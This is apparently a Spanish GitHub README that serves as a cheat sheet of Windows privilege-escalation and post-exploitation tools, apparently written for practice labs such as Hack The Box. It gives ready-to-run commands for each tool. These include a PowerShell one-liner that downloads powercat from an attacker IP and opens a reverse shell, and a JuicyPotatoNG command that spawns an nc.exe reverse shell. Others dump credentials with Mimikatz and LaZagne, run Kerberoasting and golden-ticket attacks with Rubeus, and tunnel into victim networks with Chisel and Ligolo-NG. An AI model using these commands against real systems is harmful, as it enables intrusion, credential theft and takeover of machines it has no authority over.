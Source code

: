 
# WINDOWS PRIVILEGE ESCALATION

Programas para escalar privilegios en sistemas Windows.




## WinPEAS

Este programa es utilizado para escanear el sistema en busca de archivos interesantes, malas configuraciones e información del sistema.

#### COMANDOS

```
  ./WinPEAS.exe
```

## SharpHound

Extrae información del **Directorio Activo**, este programa generará un archivo.zip que subiremos posteriormente a BloodHound.

#### COMANDOS

```
  ./SharpHound.exe -c All
```

## [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/README.md) 🔗

Módulo que importa funciones que simplifican la ejecución de comandos dedicados a **Directorio Activo**.

#### COMANDOS

```
  . ./PowerView.ps1
```
#### USO BÁSICO

```
  Get-Domain
  Get-NetGroup
  Get-DomainUser
  Get-DomainSID
```

## [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/README.md) 🔗

Módulo que importa funciones para facilitar la enumeración del sistema, como listar los registros, encontrar posibles DLL Hijacking.

#### COMANDOS

```
  . ./PowerUp.ps1
```
#### USO BÁSICO

```
  Find-ProcessDLLHijack 
  Get-RegistryAlwaysInstallElevated 
  Get-ModifiableScheduledTaskFile
  Get-RegistryAutoLogon    
```

## [Rubeus](https://github.com/GhostPack/Rubeus/blob/master/README.md) 🔗

Programa utilizado para la explotación de **Kerberos** desde la máquina víctima, se podrá realizar una gran cantidad de ataques como AsreProast, Kerberoasting, Golden y Silver Ticket...

#### COMANDOS

```
  rubeus.exe asktgt /user:USER </password:PASSWORD /aes256:HASH> [/domain:DOMAIN] ...
```
#### USO BÁSICO

```
  rubeus.exe asktgt
  rubeus.exe asktgs
  rubeus.exe s4u
  rubeus.exe golden 
  rubeus.exe silver
  rubeus.exe diamond
  rubeus.exe dump
  rubeus.exe kerberoast 
  rubeus.exe asreproast
```

## [PowerCat](https://github.com/besimorhino/powercat/blob/master/README.md) 🔗

Con PowerCat puedes realizar una Reverse Shell. Primero debes encontrar la forma de ejecutar comandos, una vez conseguido abre un servidor en la ruta donde tengas el PowerCat:

#### COMANDOS
```
python3 -m http.server 80
```

Ahora ejecuta este comando en la máquina víctima, recuerda cambiar las IP y el puerto por los TUYOS.

```
  powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://<IP-atacante>/powercat.ps1');powercat -c <IP-atacante> -p <PUERTO-atacante> -e powershell"
```

## [JuicyPotatoNG](https://github.com/antonioCoco/JuicyPotatoNG/blob/main/README.md) 🔗

Este programa explota el privilegio **SeImpersonatePrivilege** se puede comprobar ejecutando el siguiente comando:

```
whoami /priv
```

<img src="https://infiniteloginscom.files.wordpress.com/2020/12/image-42.png" width="60%" height="60%">
<br>
Después subirás a la máquina víctima este archivo y nc.exe para realziar la Reverse Shell y obtener una Shell como Administrator, hay otros métodos de escalar, como por ejemplo crear un usuario y añadirlo al grupo Administrators.

#### COMANDOS
```
juicyPotatoNG.exe -t * -p C:\Windows\System32\cmd.exe -a "/c C:\Users\Public\nc.exe -e cmd <IP-atacante> <PUERTO-atacante>"
```


## [Mimikatz](https://github.com/ParrotSec/mimikatz/blob/master/README.md) 🔗

Con Mimikatz podrás extraer los hashes de los usuarios del sistema y del dominio. Ten en cuenta que deberás tener permisos elevados.

#### COMANDOS
```
./mimikatz.exe
```

#### USO BÁSICO 
```
mimikatz# privilege::debug
mimikatz# sekurlsa::logonpasswords
```

## [LaZagne](https://github.com/AlessandroZ/LaZagne/blob/master/README.md) 🔗

Es un programa similar a Mimikatz, podrás extraer contraseñas, hashes del sistema, dominio o de algunos navegadores. En mi opinión es más sencilla de usar que Mimikatz.

#### COMANDOS
```
./LaZagne.exe all     # Extrae TODO.
./LaZagne.exe all -i  # Abre la ayuda, todos los posibles comandos.
```

#### USO BÁSICO 
```
./LaZagne.exe browsers   # Extrae contraseñas de los navegadores
./LaZagne.exe Databases  # Extrae contraseñas de las BBDD
```

## [Chisel](https://github.com/jpillora/chisel/blob/master/README.md) 🔗

Seguramente ya conozcas este programa, sirve para realizar **Port Forwarding**, esto quiere decir que te podrás traer un puerto interno de la máquina víctima a tu propia máquina.

#### MÁQUINA ATACANTE
```
./chisel server --reverse -p 1234
```

#### MÁQUINA VÍCTIMA
```
./chisel.exe client <IP-ATACANTE>:1234 R:*<PUERTO-ATACANTE>:127.0.0.1:*<PUERTO-VÍCTIMA>
```

- ***PUERTO-ATACANTE**: Este puerto es el que se abrirá en tu Localhost para acceder a la máquina víctima.
- ***PUERTO-VÍCTIMA**: Este puerto es el que "robas" a la víctima, si internamente tiene abierto el 127.0.0.1:3306 y quieres acceder a el a través del 9999 el comando sería:

#### EJEMPLO
```
./chisel.exe client <IP-ATACANTE>:1234 R:9999:127.0.0.1:3306
```

## [Ligolo-NG](https://github.com/nicocha30/ligolo-ng/blob/master/README.md) 🔗

Esta herramienta es MUCHO mejor que Chisel, con ella puedes hacer **PortForwarding** a todos los puertos de una interfaz interna de la máquina víctima.

#### EJEMPLO
La dirección IP interna de la víctima es 172.16.198.10 y quieres tener conectividad directa con esta IP y el resto de la red.

#### MÁQUINA ATACANTE (Linux)
```
sudo ip tuntap add user <username-linux> mode tun ligolo
sudo ip link set ligolo up
ip route add 172.16.198.0/24 dev ligolo

./proxy -selfcert
```

<img src="https://raw.githubusercontent.com/DavidGrandeWeb/CyberTOOLS/main/Windows/IMG/Ligolo-interfaces.png" width="60%" height="60%"><br>

#### MÁQUINA VÍCTIMA (Windows)
```
./agent.exe -connect <IP-ATACANTE>:11601 -ignore-cert
```

<img src="https://raw.githubusercontent.com/DavidGrandeWeb/CyberTOOLS/main/Windows/IMG/Ligolo-victima.png" width="60%" height="60%"><br>

#### MÁQUINA ATACANTE (Linux)
```
ligolo-ng » INFO[0037] Agent joined.                                 name="HTB\\svc-alfresco@FOREST" remote="10.10.10.161:53939"
ligolo-ng » 
ligolo-ng » session  # TIENES QUE ESCRIBIR 'session'.
? Specify a session : 1 - HTB\svc-alfresco@FOREST - 10.10.10.161:53939  #  AQUÍ ESCRIBES '1'.
```

<img src="https://raw.githubusercontent.com/DavidGrandeWeb/CyberTOOLS/main/Windows/IMG/Ligolo-session.png" width="60%" height="60%"><br>

## 🔗 Links
[![portfolio](https://img.shields.io/badge/my_portfolio-000?style=for-the-badge&logo=ko-fi&logoColor=white)](https://katherineoelsner.com/)
[![linkedin](https://img.shields.io/badge/linkedin-0A66C2?style=for-the-badge&logo=linkedin&logoColor=white)](https://www.linkedin.com/)
[![twitter](https://img.shields.io/badge/twitter-1DA1F2?style=for-the-badge&logo=twitter&logoColor=white)](https://twitter.com/)

